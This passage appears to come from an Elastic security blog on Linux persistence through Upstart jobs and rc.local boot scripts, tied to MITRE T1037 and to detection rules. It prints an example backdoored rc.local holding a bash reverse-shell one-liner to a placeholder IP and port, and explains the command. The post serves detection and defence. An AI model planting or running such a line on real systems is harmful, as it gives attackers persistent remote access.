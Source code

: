 To enable the Upstart job and ensure it runs on boot, the job file must be placed in `/etc/init/` and given appropriate permissions. Upstart jobs are automatically recognized and managed by the `Upstart init daemon`.

Upstart was deprecated a long time ago, with Linux distributions such as Debian 7 and Ubuntu 16.04 being the final systems that leverage Upstart by default. These systems moved to the SysV init system, removing compatibility with Upstart altogether. Based on the data in our [support matrix](https://www.elastic.co/support/matrix), only the Elastic Agent in Beta version supports some of these old operating systems, and the recent version of Elastic Defend does not run on them at all. These systems have been EOL for years and should not be used in production environments anymore.

Because of this reason, we added support/coverage for this technique to the [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml) detection rule. If you are still running these systems in production, using, for example, old versions of [Auditbeat](https://www.elastic.co/beats/auditbeat) to gather its logs, you can set up [Auditbeat file creation](https://www.elastic.co/guide/en/beats/auditbeat/current/configuration-auditbeat.html) and [FIM](https://www.elastic.co/docs/current/integrations/fim) file modification rules in the `/etc/init/` directory, similar to the techniques mentioned in the [previous blog](https://www.elastic.co/security-labs/primer-on-persistence-mechanisms), and in the sections yet to come. Similarly to System V Init, information and real-world examples related to this technique are specified by MITRE in [T1037](https://attack.mitre.org/techniques/T1037/).

## T1037.004 - boot or logon initialization scripts: run control (RC) scripts

The [rc.local](https://man.freebsd.org/cgi/man.cgi?rc.local) script is a traditional method for executing commands or scripts on Unix-like operating systems during system boot. It is located at `/etc/rc.local` and is typically used to start services, configure networking, or perform other system initialization tasks that do not warrant a full init script. In Darwin-based systems and very few other Unix-like systems, `/etc/rc.common` is used for the same purpose. 

Newer versions of Linux distributions have phased out the `/etc/rc.local` file in favor of Systemd for handling initialization scripts. Systemd provides compatibility through the [systemd-rc-local-generator](https://man7.org/linux/man-pages/man8/systemd-rc-local-generator.8.html) generator; this executable ensures backward compatibility by checking if `/etc/rc.local` exists and is executable. If it meets these criteria, it integrates the `rc-local.service` unit into the boot process. Therefore, as long as this generator is included in the Systemd setup, `/etc/rc.local` scripts will execute during system boot. In RHEL derivatives, `/etc/rc.d/rc.local` must be granted execution permissions for this technique to work. 

The `rc.local` script is a shell script that contains commands or scripts to be executed once at the end of the system boot process, after all other system services have been started. This makes it useful for tasks that require specific system conditions to be met before execution. Here’s an example of how a simple backdoored `rc.local` script might look:

```
#!/bin/sh
/bin/bash -c 'sh -i >& /dev/tcp/$ip/$port 0>&1'
exit 0
```

The command above creates a reverse shell by opening a bash session that redirects input and output to a specified IP address and port, allowing remote access to the system.
